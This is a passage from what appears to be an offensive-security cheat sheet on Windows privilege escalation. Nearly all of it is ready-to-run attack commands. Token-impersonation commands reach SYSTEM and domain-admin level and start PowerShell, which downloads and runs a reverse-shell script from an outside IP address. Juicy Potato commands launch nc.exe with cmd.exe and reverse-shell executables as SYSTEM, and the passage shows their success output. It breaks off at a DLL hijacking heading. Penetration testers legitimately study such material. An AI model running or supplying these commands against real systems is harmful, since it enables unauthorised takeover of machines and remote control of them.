 ```bat
Invoke-TokenManipulation -Enumerate
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```
> For more information, see next cheatsheet Domain Escalation

### Juicy Potato

**abusing the golden privileges**

[releases](https://github.com/ohpe/juicy-potato/releases) 
> Juicy Potato doesn't work on Windows Server 2019 and Windows 10 1809 +.

```bat
Check the privileges of the service account, you should look for SeImpersonate and/or SeAssignPrimaryToken (Impersonate a client after authentication)

whoami /priv

Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
    Windows 7 Enterprise
    Windows 8.1 Enterprise
    Windows 10 Enterprise
    Windows 10 Professional
    Windows Server 2008 R2 Enterprise
    Windows Server 2012 Datacenter
    Windows Server 2016 Standard

Execute JuicyPotato to run a privileged command.

JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
    Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
    ......
    [+] authresult 0
    {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
    [+] CreateProcessWithTokenW OK
```

---

## **DLL hijacking**

Tools
